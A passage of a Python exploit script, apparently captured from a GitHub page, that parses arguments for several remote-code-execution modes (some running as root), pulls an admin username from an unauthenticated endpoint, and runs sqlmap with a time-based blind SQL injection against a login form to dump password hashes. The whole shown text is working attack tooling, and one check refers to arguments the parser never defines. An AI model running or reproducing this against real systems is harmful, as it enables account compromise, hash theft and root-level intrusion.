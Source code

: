 ```python

    parser = ArgumentParser()
    parser.add_argument("target", help="Target to exploit")
    parser.add_argument("-c", "--cmd", action="store", default="id", help="Command to run")
    parser.add_argument("-u", "--username", action="store", default=None, help="Username to log in with")
    parser.add_argument("-p", "--password", action="store", default=None, help="Password to log in with")
    parser.add_argument("-g","--get-hash", action="store_true", default=None, help="Retrieve hash and quit (if no --username specified, attempts to grab USER's hash)")
    parser.add_argument("-H", "--hash", action="store", default=None, help="Retrieved hash")

    parser.add_argument("--rce", action="store", type=int, default=1, help="RCE to use (--list for info)")
    parser.add_argument("--list", action="store_true", default=False, help="List available RCEs and info")
    parser.add_argument("--proxy", action="store", default=None, help="Proxy address to use (e.g. http://localhost:8080)")

    parser.add_argument("--sqlmap-path", action="store", default=shutil.which("sqlmap"), help="Path to sqlmap")
    parser.add_argument("--sqlmap-time", action="store", type=int, default=1, help="Passed as --time-sec to sqlmap")
    args=parser.parse_args()

    if args.list:
        print("[-] RCEs:")
        print("\t0: Needs user credentials only (* +user hash). Runs as user.")
        print("\t1: Needs admin credentials only (* +admin hash). Runs as root.")
        print("\t2: Needs user credentials AND admin hash. Runs as root.")
        print("\t3: Needs user credentials AND user hash. Runs as root. WILL BREAK THINGS.")
        print("\n* Even if 0 and 1 do not really require a hash, provide a valid one it as otherwise the login fails, lazy me.")
        exit(0)
    if args.sqlmap_path is None and (args.users_table is None or args.credentials is None):
        print("[!] Could not find sqlmap on the system, to install it: 'pip install sqlmap'")
        exit(1)
    
    s = get_session(args.proxy)
    TARGET = args.target

    if args.username is None:
        #ADMIN USER INFO DISCLOSURE
        USER = s.get(f"{TARGET}/v1/SessionEvents/update").json()["data"]["USER"] 
        B64USER = str(base64.b64encode(USER.encode("utf8")), encoding="utf8")
        print(f"[*] Found ADMIN user: {USER} ({B64USER})")
    else:
       USER = args.username
       B64USER = str(base64.b64encode(USER.encode("utf8")), encoding="utf8") 
       print(f"[*] Using provided USER: {USER} ({B64USER})")

    if args.get_hash:
        #Too lazy to manually implement this, so I'll just use sqlmap
        #SQL Injection (Double Blind)
        cmd=f"{args.sqlmap_path} -u \"{args.target}/tos/index.php?user/loginSubmit&name=sqli&password=n0t&platform=me\" --batch --dbms=sqlite --level=5 --risk=2 --technique=t -p name -T user_table -C password  --dump --time-sec {args.sqlmap_time} --where \"username='{B64USER}'\""
        print(f"[.] Launching sqlmap (may take a while): {cmd}")
        os.system(cmd)        
        print("[.] If dump was successfull re-run exploit with -H or --hash")
        print("[.] Check for hash in STDOUT or ~/.local/share/sqlmap/output/<TARGET>/dump/SQLite_masterdb/user_table.csv")
        print("[.] Here, hava a cat judging you:")
```